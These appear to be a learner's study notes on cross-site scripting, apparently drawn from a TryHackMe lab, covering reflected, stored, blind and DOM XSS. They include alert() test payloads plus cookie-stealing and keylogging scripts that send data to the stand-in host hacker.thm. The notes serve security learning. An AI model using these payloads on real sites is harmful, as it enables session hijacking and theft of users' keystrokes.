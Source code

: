 ![](Pasted%20image%2020241112155322.png)

# Introduction

In XSS attacker injects malicious JavaScript code in a vulnerable web server. There are two types of XSS.

- Reflected XSS
- Stored XSS

## Reflected  XSS

In this scenario, attacker sends the payload to via URL and response is reflected back. 

![](Pasted%20image%2020241112181518.png)

## Stored XSS

In this payload is stored in the database and website uses it every from user load the page from the data making the attack persistent.

![](Pasted%20image%2020241114200253.png)

## Blind XSS

In this attack, attacker cannot see the payload working on the website.

## DOM XSS

Look for variables that can be exploited in the JS code from the URL

![](Pasted%20image%2020241114204112.png)

This code take num variable from URL and appending to img tag this can be exploited by changing the URL to below

![](Pasted%20image%2020241114205055.png)
 
![](Pasted%20image%2020241114205018.png)

# POC

### General usage

After putting JavaScript code to web page's input field if the page reacts as per the code then the web page is vulnerable to XSS

```
<script>alert('XSS');</script>
```

```
<img src="123" onerror="alert('test')" />
```

### Session stealing

Most users details are stored in the form of cookies. This can be accessed by document.cookie. btoa function convert parameter to base64 and fetch function generating request to attackers webserver, giving access to users cookies when they visit infected page.

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger:

Below is similar version of JS code that sends base64 to attacker of the key - on key press.

```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```


# References

- https://tryhackme.com/r/room/xss
- https://www.youtube.com/watch?v=EubBgig6qYs